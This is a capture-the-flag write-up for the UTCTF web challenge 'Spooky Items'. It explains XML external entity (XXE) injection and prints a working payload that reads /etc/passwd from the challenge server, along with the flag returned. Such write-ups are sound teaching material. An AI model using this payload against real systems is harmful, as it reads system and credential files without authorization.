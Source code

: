 # Spooky Items
* **Event:** UTCTF
* **Problem Type:** Web
* **Point Value / Difficulty:** easy
* **(Optional) Tools Required / Used:** None required, Burp/Postman useful

[Burp](https://portswigger.net/burp) is a common web-proxy that allows you to
quickly capture, edit, and resend HTTP requests. It's pretty useful for seeing
the full response from applications and general web app security tasks.

## Overview

The problem was meant to be an easy XXE problem, a common vulnerability in web
applications that use XML for transporting data.

## Steps

#### Find where XML is Used

Once you load up the webpage, you'll find it's a simple webpage with 3 buttons that can check the nearby "coordinates" of a particular item.

![Login Page](images/loginpage2.png)

After clicking around for a bit you'll notice that when you click the button, it
fires off a request with some XML as the request data.

![Login Page](images/xmlpayload.png)

#### Try to send some wrong stuff

Notice, in the XML sent to the server it uses an integer in the <productId> tag
to differentiate which item you want coordinates for.

If you throw in a wrong productId instead, it returns "Invalid Product Id:
<id>".


![Invalid Id](images/invalidid.png)

This will be the way you can read the output of the XXE :)

#### Look up xml vulnerabilities

If you look up XML vulnerabilities, the first thing that comes up is about XXE
attacks, there's tons of good resources to learn about them. I linked a couple
below.

Basically, XML allows these things called "Entities" that are used to define
shortcuts/macros to special characters, like macros. However, these "macros" can
do things like, pull from files if you allow "External entities". They can even
make network requests for files!

Example of Entity referencing a file:

`<!ENTITY writer SYSTEM "https://www.w3schools.com/entities.dtd">`

Generally, a well configured server would disallow External Entities for this
reason.

The document type definition (DTD) contains declarations about the structure of
an XML document, and the DTD is declared with a `DOCTYPE` element at the start
of the XML (Portswigger).

This is necessary to know, as to reference an entity you have to create a
document.

In the following document, `foo`, any reference of the entity `myentity` will be
replaced with the respective value, `my entity value`.

`<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]> `

#### Get some malicious xxe

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) has
some pretty good stuff:

First thing they have under "Classic XXE":

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>`

This XXE declares a document and an external entity that loads '/etc/passwd/'.
You then have to tailor the XXE payload to the problem, which basically just
involves adding the <locationCheck> and <productId> tags.

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><locationCheck><productId>&test;</productId></locationCheck>`

After passing that XML to the server you get back the contents of /etc/passwd!
At the bottom is the flag, which is the password for the `utctf` user.

`utctf:x:1337:1337:utctf:/utctf{n3xt_y3ar_go1ng_bl1nd}`

![/etc/passwd](images/etcpasswd.png)

## Resources
[Portswigger XXE](https://portswigger.net/web-security/xxe)

[Owasp XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
